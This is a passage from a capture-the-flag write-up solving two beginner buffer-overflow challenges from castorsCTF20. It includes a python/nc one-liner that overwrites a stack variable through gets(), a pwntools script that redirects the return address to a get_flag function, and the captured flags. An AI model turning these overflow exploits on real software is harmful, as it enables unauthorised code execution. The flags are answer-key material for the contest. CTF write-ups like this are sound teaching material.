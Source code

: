 ```c
}
```

For the `get_flag` function to run (which will print the flag), we must have the
char array `local_18`, be equal to `CyberCastors`. This can be done by
exploiting the use of the `gets` function.

```
$ python -c 'print("A" * 256 + "CyberCastors")' | nc chals20.cybercastors.com 14424
Hello everyone, say your name: castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

##### Flag

```
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

#### babybof1 (86 points 145 solves)

##### Description

Author: Lunga

nc chals20.cybercastors.com 14425

[`babybof`](/assets/files/castorsCTF20/babybof)

##### Solution

Redirect using a buffer overflow the execution to the function `get_flag`
located at address `0x004006e7`.

To find the location of the return pointer, I used gdb with the `cyclic` program
distributed with `pwntools`.

[![asciicast](https://asciinema.org/a/9bCjH0yyOnXFtnxi6JLW4WKE2.svg)](https://asciinema.org/a/9bCjH0yyOnXFtnxi6JLW4WKE2)

I then a little `pwntools` script to get the flag:

```
from pwn import *

GET_FLAG = 0x004006e7

#r = process("./babybof")
r = remote('chals20.cybercastors.com', 14425)

r.sendline(b"A" * 264 + p64(GET_FLAG))
r.interactive()
```

[![asciicast](https://asciinema.org/a/Od5SRI0eGqWBWOa1zUgiCLNxz.svg)](https://asciinema.org/a/Od5SRI0eGqWBWOa1zUgiCLNxz)

##### Flag
